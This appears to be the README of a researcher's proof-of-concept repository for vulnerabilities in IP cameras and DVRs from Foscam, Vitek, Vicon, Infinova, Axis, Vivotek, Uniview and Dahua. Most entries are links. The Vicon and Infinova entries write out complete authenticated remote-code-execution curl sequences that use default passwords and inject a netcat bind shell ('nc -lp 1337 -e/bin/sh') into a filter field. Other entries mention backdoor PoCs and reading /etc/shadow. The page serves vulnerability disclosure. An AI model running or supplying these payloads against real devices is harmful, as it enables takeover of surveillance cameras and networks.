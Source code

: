 # PoC
misc PoC

Foscam
---
2018-01-15

Small OpenSSL wrapper to looping different encryption keys/digest and cipher on Foscam IPC Firmware images.
https://github.com/mcw0/PoC/blob/master/decrypt-foscam.py

Deobfuscate strings/login/password/cryptokey in misc Foscam IPC binaries and libs
https://github.com/mcw0/PoC/blob/master/deobfuscate-foscam.py

Vitek RCE and Information Disclosure (and possible other OEM) 0-day
---
2017-12-22

https://github.com/mcw0/PoC/blob/master/Vitek_RCE_and_information_disclosure.txt

Remote Stack Format String in 'nsd' binary from multiple OEM (0-day)
---
2017-12-14

https://github.com/mcw0/PoC/blob/master/Remote_Stack_Format_String_multiple%20OEM.txt

Image here: http://62.43.36.107:50021/Public/CCTV/GWSecu/GWSecu%20Updater%20para%20c%C3%A1maras/Firmware%20para%20c%C3%A1mara%20domo/

non-crashing Format String Backdoor Proof of Concept
---
2017-12-05

https://github.com/mcw0/PoC/blob/master/tiny-w3-mcw.c

Vicon Security RCE (authenticated)
---
2017-12-03

// Enable 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=2"
  
// Add to 'IP Filter' and execute

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/AddIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"
  
// Disable 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=0"
  
// Remove from 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/DeleteIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

Infinova RCE (authenticated)
---
2017-12-03

// Enable 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=2"

// Add to 'IP Filter' and execute

curl --user admin:admin -v -X POST http://[IP:PORT]/form/AddIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

// Disable 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=0"

// Remove from 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/DeleteIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

Note: Quite sure there is additional OEM's that share same.

Axis Communications
---
2017-12-01
Axis Communications MPQT/PACS Heap Overflow and Information Leakage
https://github.com/mcw0/PoC/blob/master/Axis_Communications_MPQT_PACS_Heap_Overflow_and_information_leakage.txt

Stunnel
---
2017-11-13
Reverse stunnel TLSv1 privacy shell
https://github.com/mcw0/PoC/blob/master/Reverse%20stunnel%20TLSv1%20privacy%20shell.txt

Vivotek
---
2017-11-13
Vivotek IP Cameras - Remote Stack Overflow
https://github.com/mcw0/PoC/blob/master/Vivotek%20IP%20Cameras%20-%20Remote%20Stack%20Overflow.txt

Uniview
---
2017-10-29
Uniview RCE and export config PoC
https://github.com/mcw0/PoC/blob/master/Uniview%20RCE%20PoC.txt

Axis
---
2017-10-19
One old forgotten fuzzing back in Q3/2016 that lead to RCE (PoC: Remote connect back shell) and remote read of /etc/shadow.
Reported to Axis and fixed in Q3/2016, still posting here now as it may be good hint.
https://github.com/mcw0/PoC/blob/master/Axis%20SSI%20RCE

DAHUA
---
2017-10-17
Enable / Disable Telnetd in Dahua (for newer firmware versions)
https://github.com/mcw0/PoC/blob/master/dahua-telnetd-json.py

2017-05-03

Public rerelease of Dahua Backdoor PoC
https://github.com/mcw0/PoC/blob/master/dahua-backdoor-PoC.py

2017-03-20

With my newfound knowledge of vulnerable devices out there with an unbelievable number of more than 1 million Dahua / OEM units, where knowledge comes from a report made by NSFOCUS and my own research on shodan.io.

With this knowledge, I will not release the Python PoC to the public as before said of April 5, as it is not necessary when the PoC has already been verified by IPVM and other independent security researchers.

However, I'm open to share the PoC with serious security researchers if so desired, please e-mail me off list and be clear about who you are so I do not take you for a beggar, which I ignore.

NSFOCUS report: http://blog.nsfocus.net/dahua-cameras-unauthorized-access-vulnerability-technical-analysis-solution/

/bashis

---

Did you notice the date and time stamps on Dahua's patches?
Check the screen shots from
http://us.dahuasecurity.com/en/us/Security-Bulletin_030617.php
https://github.com/mcw0/PoC/blob/master/Dahua%20Wiki%20Firmware%20Timestamp.png

https://dahuawiki.com/images/Firmware/DVR/Q2.2017/
https://github.com/mcw0/PoC/blob/master/Dahua%20Wiki%20Firmware%20listing.png

Not only NVR/DVR/IPC/HDCVI are in the list

Intercom system as well, VTO2000A has been confirmed
http://www1.dahuasecurity.com/au/products/vto2000a-762.html

